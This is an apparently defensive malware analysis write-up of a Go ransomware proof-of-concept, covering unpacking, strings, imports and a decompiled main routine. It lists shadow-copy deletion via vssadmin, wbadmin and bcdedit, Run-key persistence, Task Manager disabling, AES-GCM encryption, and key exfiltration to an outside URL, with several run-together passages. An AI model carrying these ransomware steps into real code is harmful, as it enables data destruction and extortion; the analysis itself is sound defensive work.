

The file is a 64-bit Windows executable (PE32+) named update.exe.
b61d829b6b1fc2ecc12a86db5d99d8262485276a4bed442d34f2b10ea0181c5152f95616c3b71a279800e79535b096b110c9cf27ff16b92cf0a18200dd777a9abae9a586ed4f5f04d62b18d96b26d6db7c18840Detect It Easy identified the file as packed with UPX 5.11 using LZMA compression. The overall entropy of the packed binary was 7.99.
I unpacked the file using upx -d, which produced update_unpacked.exe.
The overall entropy dropped to 6.27, but Detect It Easy still showed a local peak reaching 8.0 around offset 0x5759b0.
Examining the raw bytes showed random data at 0x5759b0 with no repeating values, followed by structured column offsets around 0x5812c0. This area corresponds to the Go runtime symbol table (pclntab), where file names and line number deltas are stored as compressed varints.
0x005759b0: 74 42 fa 25 f6 0e 40 1d ... ; high-entropy compressed varints
0x005812c0: a6 23 44 1d f6 1a 63 1a ... ; structured offset deltasRunning strings produced a large text dump dominated by Go runtime internals, time zone names, and TLS error strings. Filtering through the noise revealed the ransomware artifacts:
ALL YOUR FILES HAVE BEEN ENCRYPTEDREADME_RESTORE.txtbc1q9x4m27d3kge0f8v5td0w4rjhkfz5a5nqpfsghrnoreply@ygg.guruhttps://ygg.guru/api/healthAES-256-GCM.lockedexcel.exe, msword.exe, mysqld.exe, postgres.exe, outlook.exevssadmin, shadowcopy, wbadmin, catalog, bcdeditHKCU\Software\Microsoft\Windows\CurrentVersion\Run and HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\SystemThe MD5 hash matched an AlienVault OTX pulse named Ransomware.YggGuru - Go-based ransomware with C2 exf.... VirusTotal showed 52 detections out of 71 engines. The binary also contained source path references to /Users/anthony/poc-cyber/cmd/ransomware/main.go, indicating a Proof-of-Concept sample.
README_RESTORE.txt
bc1q9x4m27d3kge0f8v5td0w4rjhkfz5a5nqpfsghr
noreply@ygg.guru
https://ygg.guru/api/healthThe import table lists only KERNEL32.dll.
The entries are Go runtime primitives for threads, memory allocation, exception handling, and asynchronous I/O:
CreateThread, ResumeThread, SuspendThreadVirtualAlloc, VirtualFree, VirtualQueryCreateIoCompletionPort, GetQueuedCompletionStatusExThere are no static imports for cryptography, networking, or the Windows registry. Go imports LoadLibraryExW and GetProcAddress to load modules such as advapi32.dll and ws2_32.dll dynamically at runtime.
KERNEL32.dll
LoadLibraryExW
GetProcAddress
VirtualAlloc
CreateThread
CreateIoCompletionPortI opened the unpacked binary in IDA Pro and decompiled main_main using Hex-Rays.
The function executes the following sequence:
main_killProcesses terminates targeted processes to release file locks.main_deleteShadowCopies calls vssadmin, wbadmin, and bcdedit to inhibit recovery.main_addPersistence writes WindowsUpdateService under HKCU\Software\Microsoft\Windows\CurrentVersion\Run.main_disableTaskManager sets DisableTaskMgr in registry policies.main_enumerateDrives and main_getTargetDir set the target folder to %USERPROFILE%\Documents.poc_cyber_internal_pocrypto_GenerateKey generates a 32-byte key.main_encryptFile on each target file using AES-256-GCM and counts successful encryptions.main_exfiltrateKey sends the machine ID, the key, and the file count to https://ygg.guru/api/health.main_dropRansomNote creates README_RESTORE.txt with the count of affected files.main_setWallpaper sets wall.bmp.runtime_memclrNoHeapPointers zeroes out the key in memory.v0 = main_killProcesses();
v1 = main_deleteShadowCopies(v0);
main_addPersistence(v1);
r0 = main_disableTaskManager()._r0;
v32 = main_enumerateDrives(r0);
TargetDir = main_getTargetDir();
// ...
TargetFiles = main_getTargetFiles(TargetDir._r0, TargetDir._r1);
Key = poc_cyber_internal_pocrypto_GenerateKey(...);
// ...
while ( 1 ) {
v33 = main_encryptFile(*v2, v2[1], v17, r1, r2);
// increment encrypted file count
}
main_exfiltrateKey(r3, r4, TargetDir._r0, TargetDir._r1, ..., v25, ...);
v15 = main_dropRansomNote(TargetDir._r0, TargetDir._r1, v25);
main_setWallpaper(v15);
if ( Key._r1 != 0 )
runtime_memclrNoHeapPointers(Key._r0);
c3b71a279800e79535b096b110c9cf27ff16b92cf0a18200dd777a9abae9a58b61d829b6b1fc2ecc12a86db5d99d826https://ygg.guru/api/healthnoreply@ygg.gurubc1q9x4m27d3kge0f8v5td0w4rjhkfz5a5nqpfsghrREADME_RESTORE.txtwall.bmp.lockedHKCU\Software\Microsoft\Windows\CurrentVersion\Run (WindowsUpdateService)HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System (DisableTaskMgr = 1)I thought the 8.0 entropy spike in the unpacked binary indicated an encrypted payload. Inspecting the raw bytes showed it was Go's compressed line table (pclntab).
I assumed the ransomware would exfiltrate the encryption key before starting encryption. Decompiling main_main showed that main_encryptFile runs in a loop first, counts the affected files, and passes that count to main_exfiltrateKey.
I also spent time looking for networking and registry functions in the PE import table before realizing that Go loads those APIs dynamically via LoadLibraryExW and GetProcAddress.
pclntab metadata rather than an encrypted payload.main.main to verify the execution order rather than assuming when network exfiltration happens.